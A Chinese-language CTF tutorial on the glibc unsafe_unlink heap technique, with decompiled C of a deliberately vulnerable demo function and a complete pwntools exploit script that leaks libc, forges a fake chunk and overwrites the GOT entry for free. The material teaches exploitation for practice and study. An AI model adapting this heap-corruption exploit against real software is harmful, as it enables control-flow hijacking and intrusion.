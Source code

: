 # unsafe_unlink
## Author: 文火
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>unsafe_unlink常常作为pwn入门的第一课，完成攻击时可以在任意地址进行一次改写，经常以改写got表实现劫持流程；[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/)，[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/unsafe_unlink.c)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在这里粘贴上我认为比较好的三篇资料（首先理解glibc的内存管理）：[堆溢出之unlink的利用](http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8/)，[堆溢出的unlink利用](http://papap.info/2016/08/01/%E5%A0%86%E6%BA%A2%E5%87%BA%E7%9A%84unlink%E5%88%A9%E7%94%A8/)，[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>demo程序是一个非常简单的漏洞礼包，在这里用unsafe_unlink实现一次改写got表：</font></br>

```C
ssize_t set()
{
  int index; // [esp+Ch] [ebp-Ch]

  index = -1;
  write(1, "Set chunk index:", 0x10u);
  __isoc99_scanf("%d", &index);
  if ( index < 0 )
    return write(1, "Set chunk data error!\n", 0x16u);
  write(1, "Set chunk data:", 0xFu);
  return read(0, buf[index], 0x400u);
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>填写堆块内容的时候默认过大，可以溢出至下一个堆块，因此在堆块中伪造堆块后，free下一个堆块即可利用unlink改写任意地址：</font></br>

```python
from pwn import *

p=process('./unlink')
elf=ELF('./unlink')

context.log_level='debug'
#gdb.attach(p)

n=2
chunk_addr=0x8049D60+4*n

def rv(s):
  p.recvuntil(s)

def sd(s):
  p.sendline(s)

def add(size):
  rv('Exit\n')
  sd('1')
  rv('add:')
  sd(str(size))

def setc(index,content):
  rv('Exit\n')
  sd('2')
  rv('index:')
  sd(str(index))
  rv('data:')
  p.send(content)

def dele(index):
  rv('Exit\n')
  sd('3')
  rv('index:')
  sd(str(index))

def show(index):
  rv('Exit\n')
  sd('4')
  rv('index:')
  sd(str(index))

add(0x100)
add(0x100)

dele(0)
show(0)

libc_base=u32(p.recvline()[0:4])-0x1b27b0

log.info(hex(libc_base))

dele(1)

#clear------------------------------------------- 
#start with index 2

add(0x100)
add(0x100)
add(0x100)

payload=p32(0)+p32(0)
payload+=p32(chunk_addr-12)+p32(chunk_addr-8)
payload+=(0x100-len(payload))*'a'
payload+=p32(0x100)+p32(0x108)

setc(2,payload)

dele(3)

setc(2,'a'*12+p32(elf.got['free']))
setc(2,'aaaa')

dele(3)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完之后查看core文件可以看到got表改写成功：</font></br>

![unlink](../../screenshot/unlink/unlink.png)